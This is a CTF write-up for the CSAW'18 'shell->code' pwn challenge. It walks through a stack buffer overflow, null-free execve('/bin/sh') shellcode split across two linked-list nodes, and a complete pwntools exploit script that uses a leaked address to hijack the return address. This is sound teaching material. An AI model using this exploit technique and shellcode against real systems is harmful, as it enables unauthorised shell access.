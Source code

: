 # Introduction 
shell->code was a 100 points pwn challenge on the CSAW’18 CTF Qualification Round

# Reversing (The Problem)
The clue was: "Linked lists are great! They let you chain pieces of data together"

Running checksec on the binary gives the following result:

![alt text](screenshots/checksec.png)

This gives us a few clues already:
1. NX is disabled and there are RWX segments, which points to possible shellcode injection.
2. Full RELRO means that we can't overwrite the GOT.
3. No stack canary, which points to a possible buffer overflow vulnerability.

Running the program, it asks twice for 15 bytes of data, to store on two separate linked list nodes, node 1 and node 2. Then it leaks the second node's address through the "next" pointer in the first node.
Finally, it asks for our initials and then prints a goodbye message using our input.

Let's check it out in IDA Free:


![alt text](screenshots/nononode.png)

Here we can confirm that we are only allowed to store the 15 bytes the program asks for, so no overflows in this part. However, we can see a call to the goodbye function which, I assume, is where the programs asks for our initials and says goodbye.

![alt text](screenshots/goodbye_overflow.png)

And indeed, we see the stack frame growing 16 bytes, and fgets reading 0x20 bytes into [rbp - 3], which means we have 29 bytes of overflow. 

Testing it out wields the following result:

![alt text](screenshots/segfault.png)

Aha! Just as we expected. So, there's our buffer overflow. With this, we should have enough space to overwrite the saved return address. Let's find out the offset between our input and the saved return address in gdb.

![alt text](screenshots/offset.png)

The highlighted value is what we want to overwrite and it's 11 bytes away from where our input is stored.

Now the only thing left to know is where the nodes are, relative to each other, so we can have the big picture of what's going on.
Again using gdb, we can see that node 2 (lower address) is higher than node 1 (higher address) on the stack, 32 bytes appart.

![alt text](screenshots/node_off.png)

(node 1 is filled with A's (0x41) and node 2 is filled with B's (0x42))

# The Solution

Recap: 
We have a leak from an address where we can store 15 bytes of data and we know the offset from this address to the other address where we can store another 15 bytes. 
From checksec, we know the binary doesn't have NX enabled, so we can execute code on the stack.

I solved this challenge by injecting shellcode in both nodes, and jumping between them with a short jump to save space. The script was developed in python using the pwntools library.

We have to keep in mind that fgets stops when it sees a \x00, so our shellcode can't have any of those.

```assembly
   ; complement of "/bin/sh\x00"
   mov rbx, 0xff978cd091969dd0
   not rbx
   jmp short $+20

   xor rsi, rsi
   push 59
   pop rax
   push rbx
   mov rdi, rsp

   syscall
```

First, the complement of "/bin/sh\x00" is moved into the rbx register, and then, before we push rbx we run a not on it. This way, we can push "/bin/sh\x00" without any 0's in our code.
Then I found the exact offset on gdb to where we wanted our code to jump to and hardcoded it. The rest is straightforward x86-64, avoiding instructions with 0's in them.
This code is 27 bytes long and calls sys_execve("/bin/sh\x00", null, null). It's split into 15 bytes in node 2 and 12 bytes in node 1.


```python
#!/usr/bin/env python2.7
from pwn import *
binary_path = "./shellpointcode"

SERVER = "pwn.chal.csaw.io"
PORT = 9005
# Change to False to interact with the server
local = False
if local:
   p = process(binary_path, timeout=9999)
else:
   p = remote(SERVER, PORT, timeout=9999)

"""
    xor rsi, rsi
    push 59
    pop rax
    push rbx
    mov rdi, rsp

    syscall
"""
node_1 = "\x48\x31\xf6\x6a\x3b\x58\x53\x48\x89\xe7\x0f\x05"

"""
    mov rbx, 0xff978cd091969dd0
    not rbx
    jmp short $+20
"""
node_2 = "\x48\xbb\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\xeb\x12"

padding = 'A'*11

p.sendline(node_1)
p.sendline(node_2)
p.recvuntil("node.next:")

# parse the leaked address
node_2_addr = p.recvline()
"""
we add 8 to the leaked address, because our input is at 
offset 8 from the start of node 2 which is the leaked address, 
being the first 8 bytes reserved to the pointer to the next node on the list.
"""
rip = p64(int(node_2_addr, 16) + 8)
p.sendline(padding + rip)
p.interactive()
```

Now we run the script and get the flag!

![alt text](screenshots/win.png)

